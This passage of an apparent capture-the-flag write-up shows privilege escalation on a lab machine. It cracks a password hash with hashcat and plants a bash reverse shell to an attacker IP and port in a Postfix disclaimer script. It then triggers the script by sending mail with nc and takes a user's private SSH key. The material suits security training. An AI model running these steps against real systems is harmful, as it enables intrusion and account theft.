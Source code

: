 
Trying to crack the hash with **Hashcat**:
```
hashcat kyle.hash /usr/share/wordlists/rockyou.txt
```
```
marcoantonio
```

After a while the hash gets cracked and the password can be used to login as _kyle_:
```
ssh kyle@10.10.11.101
```

### Privilege Escalation 2

The user _kyle_ is a member of the groups _filter_ and _smbgroup_.

Finding files that are owned by the group _filter_:
```
find / -group filter -ls 2>/dev/null
```
```
-rwxrwxr-x   1 root     filter       1021 Dec 21 16:44 /etc/postfix/disclaimer
drwxr-x---   2 filter   filter       4096 May 13  2021 /var/spool/filter
```

The file _disclaimer_ is a bash script and it is configured in the **Postfix** configuration file _/etc/postfix/master.cf_:
```
flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

It gets executed by the user _john_ when sending an email, so we can modify it to include a reverse shell command:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.5/9002 0>&1'
(...)
```

Sending an email with `nc`:
```
nc localhost 25

EHLO writer.htb
(...)
MAIL FROM: kyle@writer.htb
RCPT TO: root@writer.htb
DATA

Subject: Test mail
Test
.
```

After sending the mail, the modified _disclaimer_ script will be executed and the listener on my IP and port 9002 starts a shell as _john_.
The private SSH key in the home directory _/home/john/.ssh_ can be stolen and used to create a real SSH session.
```
ssh -i john.key john@10.10.11.101
```
